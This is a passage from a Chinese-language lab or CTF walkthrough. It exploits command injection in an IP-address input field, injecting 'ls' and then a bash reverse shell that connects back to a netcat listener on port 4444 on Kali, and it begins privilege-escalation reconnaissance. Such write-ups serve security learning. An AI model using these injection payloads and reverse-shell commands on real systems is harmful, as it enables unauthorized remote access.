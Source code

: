 
输入以下命令



```
192.168.108.136;ls

```

[![](https://files.mdnice.com/user/81572/41ed6d68-ff04-4102-bbe1-4ccea959f1f3.png)](https://files.mdnice.com/user/81572/41ed6d68-ff04-4102-bbe1-4ccea959f1f3.png)


发现成功回显，并且经过测试，并不存在过滤的情况


## 3\. 反弹shell


这里我们使用bash反弹


开启监听端口，端口选用kali空闲端口即可



```
nc -lvvp 4444

```

[![](https://files.mdnice.com/user/81572/d0737198-44ba-425d-b6ae-63b532d70b40.png)](https://files.mdnice.com/user/81572/d0737198-44ba-425d-b6ae-63b532d70b40.png)


执行以下代码



```
127.0.0.1;bash -i >& /dev/tcp/192.168.108.130/4444 0>&1
/dev/tcp/你的kali的ip/开启的端口

```

可以看到反弹成功


[![](https://files.mdnice.com/user/81572/d9d2aaf1-445a-49c4-9940-8275b5ed3a59.png)](https://files.mdnice.com/user/81572/d9d2aaf1-445a-49c4-9940-8275b5ed3a59.png)


# 三、提权


查询版本信息



```
uname -a
lsb_release -a

```
